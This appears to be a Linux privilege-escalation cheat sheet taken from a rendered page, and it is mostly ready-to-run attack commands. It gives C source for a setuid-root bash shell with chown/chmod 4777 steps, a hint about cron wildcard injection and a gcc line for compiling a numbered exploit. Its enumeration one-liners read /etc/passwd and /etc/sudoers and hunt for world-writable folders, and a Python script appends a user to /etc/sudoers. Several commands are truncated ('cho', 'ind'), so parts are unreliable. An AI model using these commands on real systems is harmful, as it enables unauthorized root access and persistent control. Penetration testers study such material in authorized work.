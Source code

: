 If you can sudo chmod:

```text
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c $ sudo chown root:root /tmp/setuid; sudo chmod 4777 /tmp/setuid; /tmp/setuid
```

Wildcard injection if there is a cron with a wildcard in the command line, you can create a file, whose name will be passed as an argument to the cron task, For more info:

```text
https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562
```

compile exploit fix error

```text
gcc 9545.c -o 9545 -Wl,--hash-style=both
```

Find other uses in the system

```text
 $id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l
```

```text
grep home /etc/passwd|cut -d: -f1
```

#### World readable/writable files:

```text
cho "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;
```

Find world-readable files:

```text
find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print
```

Find nobody owned files

```text
ind /dir -xdev \( -nouser -o -nogroup \) -print
```

Add user to sudoers in python.

```text
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

